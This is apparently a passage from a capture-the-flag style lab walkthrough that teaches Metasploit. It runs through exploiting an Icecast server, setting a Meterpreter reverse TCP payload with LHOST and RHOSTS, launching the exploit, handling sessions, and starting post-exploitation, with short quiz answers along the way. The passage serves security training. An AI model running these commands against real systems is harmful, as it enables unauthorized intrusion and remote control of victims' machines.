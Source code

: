 A: exploit/windows/http/icecast_header

While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command 'search multi/handler'.

Go ahead and run the command 'use NUMBER_NEXT_TO exploit/multi/handler` wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.

Q: What is the name of the column on the far left side of the console that shows up next to 'Name'?

A: #

Q: Now type the command 'use NUMBER_FROM_PREVIOUS_QUESTION'. This is the short way to use modules returned by search results.

No answer needed

Q: Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR_IP_ON_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.

A: No answer needed

Q: Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

A: No answer needed

Q: One last step before we can run our exploit. Run the command 'set RHOSTS BOX_IP' to tell Metasploit which target to attack.

A: No answer needed

Q: Once you're set those variables correctly, run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.

A: No answer needed

Q: Once we've started this, we can check all of the jobs running on the system by running the command `jobs`

A: No answer needed

Q: After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`

A: No answer needed

## Task 6

Now that we've got a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage! Most of the questions in the following section can be answered by using the Meterpreter help menu which can be accessed through the 'help' command. This menu dynamically expands as we load more modules.

Q: First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command 'ps'. What's the name of the spool service?
